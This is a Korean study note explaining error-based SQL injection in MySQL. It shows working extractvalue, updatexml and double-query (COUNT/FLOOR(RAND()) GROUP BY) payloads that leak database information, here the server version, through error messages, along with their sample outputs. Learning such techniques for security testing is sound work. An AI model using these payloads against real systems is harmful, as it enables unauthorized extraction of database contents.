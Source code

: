 <br>

에러를 이용한 공격을 하려면 쿼리가 실행하기 전 발생하는 문법 에러가 아닌, 쿼리 실행 후 발생하는 에러가 필요하다.

가장 많이 사용되는 코드는 ```extracvalue``` 함수로 아래와 같다.

<br>

```php
SELECT extractvalue(1,concat(0x3a,version()));

/* ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log' */
```

<br>

```extractvalue``` 함수는 첫 번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출한다.

만약, 두 번째 인자가 올바르지 않은 XPATH 식일 경우 올바르지 않은 XPATH 식이라는 에러 메시지와 함께 잘못된 식을 출력한다.

<br>

```php
mysql> SELECT extractvalue('<a>test</a> <b>abcd</b>', '/a');

+-----------------------------------------------+
| extractvalue('<a>test</a> <b>abcd</b>', '/a') |
+-----------------------------------------------+
| test                                          |
+-----------------------------------------------+
1 row in set (0.00 sec)
```

<br>

```php
mysql> SELECT extractvalue(1, ':abcd');

ERROR 1105 (HY000): XPATH syntax error: ':abcd'
# ":" 로 시작하면 올바르지 않은 XPATH 식
```

<br>

그 외에도 Mysql에서 사용 가능한 여러 방법이 있으며 DBMS에 따라 방법이 다르다.

<br>

```php
SELECT updatexml(null,concat(0x0a,version()),null); 

/* MySQL ERROR 1105 (HY000): XPATH syntax error: '5.7.29-0ubuntu0.16.04.1-log' */
```

<br>

+ Double Query Injection

```php
SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;

select 1 from (select count(*), concat((select version()), 0x3a, floor(rand()*2)) x from information_schema.tables group by x) y

row(1,1)>(select count(*), concat(ps,0x3a,floor(rand()*2)) as a from information_schema.tables group by a)

/* MySQL ERROR 1062 (23000): Duplicate entry '5.7.29-0ubuntu0.16.04.1-log:1' for key '<group_key>' */
```
